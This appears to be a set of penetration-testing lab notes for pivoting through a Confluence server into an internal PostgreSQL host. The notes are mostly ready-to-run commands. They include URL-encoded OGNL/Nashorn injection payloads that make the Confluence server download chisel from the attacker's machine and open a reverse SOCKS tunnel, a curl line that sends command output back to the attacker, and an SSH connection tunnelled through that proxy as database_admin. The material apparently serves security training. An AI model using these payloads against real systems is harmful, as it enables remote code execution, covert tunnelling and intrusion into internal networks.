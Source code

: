 ```yaml
---
IP_KALI: 192.168.45.155
IP_CONFLUENCE: 192.168.227.63
IP_PGDATABASE: 10.4.227.215
USER: database_admin
COMMAND: ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p
---
```

Kali: Copy chisel to web root:
```
sudo cp $(which chisel) /var/www/html/
```
 
 Kali: Start Apache:
```
 sudo systemctl start apache2
```

Kali: Start Apache:
```
sudo systemctl start apache2
```

Payload for confluence:
- curl http://<span id="IP_CONFLUENCE"/>192.168.227.63<span type="end"/>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20<span id="IP_KALI"/>192.168.45.155<span type="end"/>/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

Check Apache log file for request:
```
tail -f /var/log/apache2/access.log
```

Start the chisel server on Kali:
```
chisel server --port 8080 --reverse
```

Log incoming traffic on Kali:
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Start chisel on client using injection:
- curl http://<span id="IP_CONFLUENCE"/>192.168.227.63<span type="end"/>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20<span id="IP_KALI"/>192.168.45.155<span type="end"/>:8080%20R:socks%27%29.start%28%29%22%29%7D/

Recreate payload with error output that is piped to the tcpdump:
- curl http://<span id="IP_CONFLUENCE"/>192.168.227.63<span type="end"/>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20<span id="IP_KALI"/>192.168.45.155<span type="end"/>:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://<span id="IP_KALI"/>192.168.45.155<span type="end"/>:8080/%27%29.start%28%29%22%29%7D/

Check SOCKS proxy on Kali:
```
ss -ntplu
```

Install ncat:
```
sudo apt install ncat
```

Establish SSH connection via Chisel reverse SOCKS proxy:
- ssh -o ProxyCommand='<span id="COMMAND"/>ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p<span type="end"/>' <span id="USER"/>database_admin<span type="end"/>@<span id="IP_PGDATABASE"/>10.4.227.215<span type="end"/>